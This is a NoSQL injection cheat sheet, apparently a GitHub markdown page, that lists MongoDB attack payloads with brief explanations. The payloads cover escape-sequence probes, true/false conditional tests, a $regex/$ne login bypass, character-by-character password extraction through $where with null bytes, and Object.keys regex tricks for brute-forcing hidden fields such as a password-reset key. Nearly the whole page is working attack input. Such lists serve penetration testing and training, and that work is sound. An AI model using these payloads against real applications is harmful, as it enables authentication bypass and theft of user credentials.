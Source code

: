 # Detecting NoSQLi Vulnerability
```
'
\' >> Escape Sequence: This will return 200 response. Similiar as -- - in sql injection.
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
```
# Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
```
## Example with explanation:

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.

# MongoDB Login Bypass

{"$regex":""} >> For username
{"$ne":"Invalid"} >> For password

#MongoDB Data Retrieving

' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL

#Operator Injection To Retrieving Unknown Data

{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
